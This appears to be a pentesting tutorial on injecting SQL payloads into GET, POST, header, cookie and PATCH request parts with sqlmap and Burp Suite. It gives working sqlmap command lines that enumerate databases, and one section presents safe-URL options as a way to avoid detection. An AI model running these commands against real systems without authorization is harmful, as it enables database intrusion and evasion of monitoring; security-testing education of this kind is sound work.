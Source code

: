 ```yaml
---
title: Mastering Request Handling & Injection Techniques
description: Learn to handle and inject SQL payloads in HTTP requests with sqlmap,
  targeting GET, POST, headers, cookies, and more.
keywords:
- SQL injection
- sqlmap
- HTTP requests
- GET parameters
- POST data
- header injection
- cookie injection
- Burp Suite
- web security
---
```


# Request Handling & Injection

## Context

In this article, we'll delve into the methodology of handling and injecting SQL payloads into various HTTP request components using `sqlmap`. Understanding HTTP methods, headers, cookies, and web request structures are essential prerequisites. Additionally, familiarity with sqlmap usage and basic boolean injection discovery strategies will be beneficial.

## Theory

### Request Handling in SQL Injection

SQL injection vulnerabilities can be exploited by manipulating unsanitized inputs within HTTP requests to execute arbitrary SQL queries against a backend database. It's crucial to understand which parts of an HTTP request can be targeted for SQL injection, including URL query parameters, POST data, headers, and cookies.

### SQLMap Request Options

`sqlmap` is a powerful tool for automating SQL injection testing. By using specific options, such as `-r`, `--data`, `--headers`, and `--cookie`, users can specify exactly which components of an HTTP request sqlmap should target. This precision allows for more effective testing and exploitation.

### Burp Suite Request Integration

Burp Suite can be used to capture and export HTTP requests which can then be imported into `sqlmap`. This feature is advantageous for replaying complex HTTP requests that are difficult to manually replicate in sqlmap. The typical workflow involves capturing a request in Burp Suite, saving it to a file, and using the `-r` option in sqlmap to load it.

### Injection Vectors in HTTP Requests

The components of an HTTP request that can be targeted for SQL injection include:

- **GET parameters**: Query strings attached to URLs.
- **POST data**: Payload sent with POST methods, often used in form submissions.
- **Headers**: HTTP headers such as User-Agent, Referrer, etc.
- **Cookies**: Key-value pairs used to maintain session state.
- **PATCH method**: Rarely used method but can be a vector for injection.

## Practice

### GET Injection with sqlmap

Inject SQL payloads into GET parameters to exploit query string inputs.

```bash
sqlmap -u 'http://example.com/page?id=1' --method=GET --dbs
```

- This will test the `id` parameter for vulnerabilities by retrieving available databases.

### POST Injection with sqlmap

Target POST data for SQL injection to exploit form submission fields.

```bash
sqlmap -u 'http://example.com/login' --method=POST --data='username=admin&password=pass' --dbs
```

- Here, sqlmap will attempt to inject into the `username` and `password` fields and enumerate accessible databases.

### Header Injection with sqlmap

Use SQL payloads on HTTP headers to exploit header-based inputs.

```bash
sqlmap -u 'http://example.com/page' --headers='User-Agent: sqlmap' --dbs
```

- By altering headers such as `User-Agent`, sqlmap seeks vulnerabilities that could expose database information.

### Cookie Injection with sqlmap

Inject into HTTP cookies to gain unauthorized access via state-preserving components.

```bash
sqlmap -u 'http://example.com/page' --cookie='sessionid=abc123' --dbs
```

- This examines the `sessionid` cookie for possible SQL injection points.

### PATCH Method Injection with sqlmap

Utilize the PATCH HTTP method for SQL injection when using APIs or modifying resources.

```bash
sqlmap -u 'http://example.com/resource' --method=PATCH --data='{"key":"value"}' --dbs
```

- Tests the ability to exploit API endpoints that allow partial updates to a resource.

### Safe URL and Safe POST Usage

Employ safe URLs and POST data to stealthily perform SQL injection without alerting security systems.

```bash
sqlmap -u 'http://example.com/page' --safe-url='http://example.com/safe' --safe-post='param=value' --dbs
```

- This ensures the session or state is consistent while minimizing detection risk.

## Tools

- **sqlmap**
- **Burp Suite**

By following these techniques, you will be equipped to efficiently incorporate SQL injection tests into your cybersecurity practice using tools like `sqlmap` and Burp Suite, targeting various segments of HTTP requests.